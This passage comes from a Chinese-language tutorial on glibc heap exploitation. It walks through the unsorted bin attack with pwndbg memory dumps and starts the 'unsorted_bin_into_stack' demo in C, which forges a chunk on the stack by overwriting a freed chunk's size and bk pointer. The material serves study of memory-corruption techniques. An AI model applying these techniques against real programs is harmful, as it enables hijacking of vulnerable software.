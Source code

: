 这段代码分为三个步骤：

1. 在栈上设置了一个我们即将要改写的目标；p指向一块400大小的chunk，一块500大小的chunk（用于防止400大小的chunk被合并到topchunk中）；随后free了p，插入到了unsorted bin中，此时，chunk(p)的fd和bk都指向了main arean + 88

    ```bash
    pwndbg> x/10gx 0x602000
    0x602000: 0x0000000000000000 0x00000000000001a1
    0x602010: 0x00007ffff7dd1b78 0x00007ffff7dd1b78
    ```

2. 更改p[1]的值，即chunk(p)->bk = &stack_var - 2，此时 bk指向了伪造的chunk(stack_var - 0x10)的位置，stack_var也就指向了fakeChunk->fd的位置

    ```bash
    pwndbg> x/x &stack_var 
    0x7fffffffdd98: 0x0000000000000000
    pwndbg> x/x p[1]
    0x7fffffffdd88: 0x00000000004007c6
    ```

3. 再次分配400大小的chunk。由于此时chunk(p)->bk 指向的是fakeChunk而非unsorted bin本身，所以源码逻辑认为队列中还有一个chunk，p出列后就更改了chunk(p)->bk 也就是fakeChunk的fd，使其指向了`main_arena +88`。此时，stack_var的值就被更改了。

    ```bash
    pwndbg> x/4gx &stack_var -2
    0x7fffffffdd88: 0x0000000000400828 0x0000000000400890
    0x7fffffffdd98: 0x00007ffff7dd1b78 0x0000000000602010
    ```

## unsoted_bin_into_stack

上一个case是修改局部变量的值，这次是在栈上伪造一个chunk，用于在栈上指定的地址中写数据。

```c
void jackpot(){ printf("Nice jump d00d\n"); exit(0); }

int main() {

        // 1
        intptr_t stack_buffer[4] = {0};

        printf("Allocating the victim chunk\n");
        intptr_t* victim = malloc(0x100);

        printf("Allocating another chunk to avoid consolidating the top chunk with the small one during the free()\n");
        intptr_t* p1 = malloc(0x100);

        printf("Freeing the chunk %p, it will be inserted in the unsorted bin\n", victim);
        free(victim);

        // 2
        printf("Create a fake chunk on the stack");
        printf("Set size for next allocation and the bk pointer to any writable address");
        stack_buffer[1] = 0x100 + 0x10;
        stack_buffer[3] = (intptr_t)stack_buffer;

        //------------VULNERABILITY----------- 3
        printf("Now emulating a vulnerability that can overwrite the victim->size and victim->bk pointer\n");
        printf("Size should be different from the next request size to return fake_chunk and need to pass the check 2*SIZE_SZ (> 16 on x64) && < av->system_mem\n");
        victim[-1] = 32;
        victim[1] = (intptr_t)stack_buffer; // victim->bk is pointing to stack

        //------------------------------------ 4
```